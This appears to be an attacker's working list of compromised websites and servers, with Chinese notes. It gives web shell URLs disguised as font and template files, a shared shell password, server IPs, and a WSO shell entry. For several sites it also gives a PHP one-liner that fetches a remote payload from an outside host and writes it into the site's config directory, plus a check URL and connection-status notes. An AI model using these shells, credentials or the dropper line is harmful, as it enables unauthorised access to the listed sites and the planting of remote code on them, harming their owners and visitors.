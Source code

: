 https://dati.chentu.fun/app/resource/fonts/m1.php |mmk123 |  101.200.184.155
代码更新：0608 ✅
https://dati.chentu.fun/error/httpd.php
<?php file_put_contents("../payment/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://dati.chentu.fun/payment/httpd.php?d=up

http://wangzhan1.chentu.fun/skin/fonts/m1.php |mmk123 |  101.200.184.155
代码更新：0608 ✅
http://wangzhan1.chentu.fun/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://wangzhan1.chentu.fun/config/httpd.php?d=up
https://wangzhan1.chentu.fun/index_bk.php |mmk123 |  101.200.184.155

https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 |  101.201.103.109 | 连接不上
https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 |  101.201.103.109
https://www.sxxzcm.com/index_bk.php --wso |BIG_wso |  120.53.238.180

http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 |  120.77.250.124
代码更新：0608 ✅
http://www.gzchaoyinsu.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.gzchaoyinsu.com/config/httpd.php?d=up

http://118.178.126.253/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://118.178.126.253/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://118.178.126.253/config/httpd.php?d=up

http://112.124.15.47/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://112.124.15.47/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.124.15.47/config/httpd.php?d=up

http://47.113.148.93/template/default/bootstrap/js/js.php |mmk123  | 连接不上
http://120.79.226.173:8090/template/default/bootstrap/js/js.php |mmk123 

http://47.101.51.162/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.101.51.162/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.101.51.162/config/httpd.php?d=up
